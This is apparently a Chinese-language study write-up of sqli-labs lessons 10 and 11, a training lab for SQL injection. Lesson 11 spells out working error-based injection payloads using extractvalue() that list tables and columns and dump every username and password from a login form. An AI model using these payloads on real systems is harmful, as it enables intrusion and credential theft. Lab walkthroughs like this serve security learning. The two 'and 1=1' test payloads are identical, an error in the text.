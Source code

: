 ***
# less 10(双引号get时间布尔盲注)
***
## 原理
根据题目信息提示是双引号盲注，我们进到其源码中查看发现id变量被双引号包括了起来如下
`$id = '"'.$id.'"';`
也就是说，我们要更改闭合方式，剩余的步骤应该依旧是猜测
## 步骤省略
***


# less 11(post基于错误的单引号字符串注入)
***
## 原理
这次的页面比较新，是一个登陆界面
![sql1101](https://github.com/404sprint/404sprint.github.io/tree/master/img/sql%E5%9B%BE%E7%89%87/less11/sql1101)
报错注入
利用到extractvalue()函数，
它的作用是从目标XML中返回包含所查询值的字符串。
它的正确语法是:extractvalue(XML_document, XPath_string)
其中：
第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc
第二个参数：XPath_string (Xpath格式的字符串)
如果我们对其中的参数输入错误的格式，那么它就会进行报错
## 步骤
1.在该页面提交表单发现会登陆失败，使用burpsuite进行拦截并且多次测试表单内容
2.首先测试注入点，是否存在注入漏洞
构造payload
`uname=admin' and 1=1 --+ &passwd=admin&submit=Submit`
页面显示能够登录
`uname=admin' and 1=1 --+ &passwd=admin&submit=Submit`
页面显示登陆失败
![sql1103](https://github.com/404sprint/404sprint.github.io/tree/master/img/sql%E5%9B%BE%E7%89%87/less11/sql1103)
说明and后的语句被执行了，也就是说存在注入漏洞
3.接下来可以使用报错对数据库的内容进行输出
构造payload:
`uname=admin' and extractvalue(1,concat('~',(select database()))) --+&passwd=admin&submit=Submit`
![sql1104](https://github.com/404sprint/404sprint.github.io/tree/master/img/sql%E5%9B%BE%E7%89%87/less11/sql1104)
如图所示，相应的数据库名被与错误信息连接在一起显示了出来
4.对数据表进行输出
`uname=admin' and extractvalue(1,concat('~',(select group_concat(table_name)from information_schema.columns where table_schema='security')))--+&passwd=admin&submit=Submit`
![sql1105](https://github.com/404sprint/404sprint.github.io/tree/master/img/sql%E5%9B%BE%E7%89%87/less11/sql1105)
但是发现能显示出来的只有两个表，需要对其余的几个表进行爆破,利用SQL语句的 NOT IN限制
`uname=admin' and extractvalue(1,concat('~',(select group_concat(table_name)from information_schema.columns where table_schema='security' and table_name not in('emails'))))--+&passwd=admin&submit=Submit`
连续排除几个表发现数据库中所有的表为emails,referers,uagents还有users，要对users表进行爆破
5.`uname=admin' and extractvalue(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name in ('users')))) --+ &passwd=admin&submit=Submit`
只获取users表中的三个列名id,username,password
6.`uname=admin' and extractvalue(1,concat('~',(select group_concat('|',username,'~',password,'|') from users ))) --+ &passwd=admin&submit=Submit`